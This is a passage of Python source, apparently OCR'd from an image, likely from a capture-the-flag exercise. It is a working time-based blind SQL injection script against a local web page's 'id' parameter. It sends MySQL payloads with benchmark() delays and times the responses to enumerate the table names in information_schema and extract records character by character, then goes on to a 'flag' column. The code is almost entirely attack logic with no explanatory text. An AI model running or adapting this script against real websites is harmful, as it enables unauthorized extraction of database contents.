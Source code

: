```python
            for n in range(1,length1+1):              #获取记录
                for payload in payloads:
                    url = url6 + ',1),' + str(n) + ',1))=\'' + str(payload) + '\'),benchmark(1000000,md5(\'test\')),NULL); %23' 
                    r = requests.get(url)
                    time = r.elapsed.total_seconds()
                    if time > 1.5:
                        print(url)
                        str1 += payload
                        break
            num.append(str1)
            str1 = ''
    for column in num1:
        print(column+'    ',end='')
    print('\n',end='')
    for i in range(length2):
        for k in range(length):
            x = i + length * k
            print(num[x]+'    ',end='')
        print('\n',end='')
def guess_table():
    string = ''
    extend = 0
    list = []
    url1 = 'http://127.0.0.1/?id= 1 and if(((select count(table_name) from information_schema.tables where table_schema=database())='
    url2 = 'http://127.0.0.1/?id= 1 and if((substr((select table_name from information_schema.tables where table_schema=database() limit '
    url3 = 'http://127.0.0.1/?id= 1 and if(((select length(table_name) from information_schema.tables where table_schema=database() limit '
    for i in range(50):
        url = url1 + str(i) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
        r = requests.get(url)
        time = r.elapsed.total_seconds()
        if time > 1.5:
            extend = i
            break
    for k in range(extend):
        st = ''
        extend1 = 0
        for m in range(100):
            url = url3 + str(k) + ',1)=' + str(m) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
            r = requests.get(url)
            time = r.elapsed.total_seconds()
            if time > 1.5:
                extend1 = m
                break
        for i in range(1,extend1+1):
            for payload in payloads:
                url = url2 + str(k) + ',1),' + str(i) + ',1)=\'' + payload + '\'),benchmark(1000000,md5(\'test\')),NULL); %23'
                r = requests.get(url)
                time = r.elapsed.total_seconds()
                if time > 1.5:
                    st += payload
                    break
        list.append(st)
    print('------------')
    for i in list:
        print(f'[*]{i}')
    print('------------')
    guess_column('flag')

```